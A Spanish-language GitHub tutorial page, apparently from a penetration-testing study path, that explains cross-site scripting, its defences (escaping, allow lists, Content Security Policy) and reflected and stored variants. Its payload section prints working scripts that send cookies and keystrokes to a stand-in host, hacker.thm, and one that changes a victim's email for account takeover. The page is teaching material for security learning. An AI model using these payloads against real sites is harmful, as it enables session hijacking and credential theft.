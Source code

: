 <p align="right"><img height=100px width=100px src="https://github.com/user-attachments/assets/28eba669-a8dd-418a-bc8d-cc7c8e147edc"></p>

<p align="center"><img src="https://github.com/D4l1-web/PenetrationTester-Ruta/assets/79869523/6f0d0415-0442-48c8-ab8e-f78062b511a3"></p>


<h1 align="center">Cross-site scripting (XSS)</h1>

# ÍNDICE

- [PROTECCIÓN](https://github.com/D4l1-web/PenetrationTester-Ruta/blob/main/Cross-Site%20Scripting.md#protecci%C3%B3n)
- [IMPLEMENTAR CONTENIDO SEGURO](https://github.com/D4l1-web/PenetrationTester-Ruta/blob/main/Cross-Site%20Scripting.md#implementar-contenido-seguro-de-privacidad)


Cross-site scripting (XSS) es uno de los metodos mas comunes que los hackers utilizan para atacar paginas webs. Permite al usuario malicioso ejecutar codigo arbitrario JavaScript cuando otros usuarios visitan la página.

XSS es una de las vunerabilidades que más se reportan en los sitios web. 

¿Qué puede hacer un hacker explotando una vulnerabilidad XSS?

XSS ejecuta arbitrariamente codigo JavaScript, el daño que puedan hacer depende de la sensibilidad de los datos que pueda proveer dicha página.

- Se podrían difundir gusanos en las páginas como "Facebook, Twitter"
- Robo de sesión, pudiendo coger las cookies remotamente.
- Robo de identidad, Información confidencial tarjetas, numeros, etc.
- Denegación de servicio.
- Robo de datos sensibles, como contraseñas.
- Fraude financiero en bancos.

# Protección 

Para poder ser protegido por estos ataques, tendremos que tener seguros que nuestro contenido dinamico que puedas enviar datos, puedas inyectar codigo JavaScript.

Todas las páginas estan hechas con HTML, usualmente describen el tema y los ficheros, lo utilizariamos con contenido dinamico y cuando la pagina se volivera a cargar parariamos.

Con "Stored XSS attacks" hacemos que dentro del contenido dinamico podamos guardan contenido en el "backend". El atacante abusa de archivos que se pueden editar e insertar codigo JavaScript, evaluado por el navegador cuando otro usuario visita la página.

A menos que tu sitio web sea un (CMS), es raro que sus usuarios puedan crear "HTML" sin formato, debee escapar de todo el contenido dinámico que se pueda almacenar datos y el navegador sepa que solo pueda aceptar etiquetas "HTML"

![image](https://github.com/pons-rgb/vuln/assets/174595469/07f4790a-365a-4360-b818-3557e00734a8)

## VALORES DE LISTA PERMITIDOS

Si un particular dato dinamico de cada item puede tener solo algunos valores validos, la mejor practica es restringir estos valores, solo permitir los valores que necesitemos.

## IMPLEMENTAR CONTENIDO SEGURO DE PRIVACIDAD

Los navegadores puedes suportear contenido de seguridad y sus politicas, cuando el autor tiene el control de la página web, donde "JavaSCript y otros valores" pueden ser ejecutados. Los ataques XSS pueden hasta llegar a correr código malicioso en la página del usuario. Injectando 
```
<script></script>
```
Obviamente con el tag de html.

Una buena privacidad de seguridad, un header responsivo, y decirle al navegador que nunca ejecute arbitrariamente código "JavaScript", y bloquear los dominios que contengan host "JavaScript" para la página.

Por ejemplo le podrías decir al navegador.
![image](https://github.com/pons-rgb/vuln/assets/174595469/9dab6c46-d5b9-4543-9cb6-85e11dadeea9)

Listar los scripts que no queremos que se ejecuten.
![image](https://github.com/pons-rgb/vuln/assets/174595469/a9f6348a-9083-4639-9ad8-c34fc80818a7)

Esto protejera a los usuarios efectivamente, sin embargo esto no hace que sea 100 por cien seguro.

# XSS PAYLOAD

En XSS, los payloados son código JS que se ejecutan en el ordenador víctima. Hay dos partes del payload, la intención y la modificación.

La intención que tenga JS, la modificacion cambia el codigo que necesitamos para ejecutar en diferentes escnarios

### PROOF OF CONCEPT

Estos sin payloads simples que demostran XSS en las aplicaciones web
```
<script>alert('XSS');</script>
```

### ROBO DE SESIÓN

Los detalles de la sesión de usuario, son con logins de tokens, aveces conseguiremos las cookies de la maquina víctima. Debajo del script de JS, base64 docificados esta la cookie para una tranmisión y no pueda un hacker tener el contro. Si el atacante consigue las cookies del usuario puede entrar sin necesidad de logearse. 

```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### KEY LOGGER

El código debajo del key logger. Cualquier cosa que escribas en la página web será reenviada a un sitio web bajo el control del hacker. Esto puede ser muy dañino para la pagina web porque el payload esta instalado para coger las credenciales del login o tarjetas de crédito.

```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

### LÓGICA DE NEGOCIO

Este payload es mucho más específico que los otros. Esto se hacer para llamar a un recursos en particular de la red o una función JS. Por ejemplo, imaginemos que la funcion de JavaScript cambia el email de usuario llamado "user.changeEmail()". 

```
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Hace que la cuenta de correo se cambie, para que el atacante tenga posibilidad de resetear la contraseña.

# XSS REFLEJADO

El XSS refleajdo se hace cuando una consulta HTTP incluye codigo de la página web sin validación.

### ESCENARIO DE EJEMPLO

Una pagina web que si introduces un input mal, te sale un mensaje que te lo dice. 

![image](https://github.com/user-attachments/assets/a31c654f-0d48-43ea-8a22-7e61ff216612)

Esta aplicación no necesita chekear el contenido si es un parametro de error, haciendo que podamos insertar codigo malicioso.

![image](https://github.com/user-attachments/assets/65bd6e80-dd7c-4a9d-a42f-da6f74a779f7)

![image](https://github.com/user-attachments/assets/38b15606-2d58-4aaf-971a-6f09af6e6289)

### IMPACTO POTENCIAL

El atacante puede mandar links o redirecciones dentro del iframe de otra web, contenido JS payload potencial para las victimas, potencial reverse shell o información del customer.

## COMO TESTEAR UN REFLECTED XSS

Necesitaremos siempre testear todas las posibilidades incluyendo:

- Parametros en una consulta con URL
- Ruta de la URL
- Cabeceras HTTP

# STORED XSS

Como el nombre se refiere, este tipo de payload se guarda en la aplicación web (en la base de datos)

### EJEMPLO

En un blog los usuarios pueden mandar post. Desafortunadamente, estos comentarios no se chekean por código JS



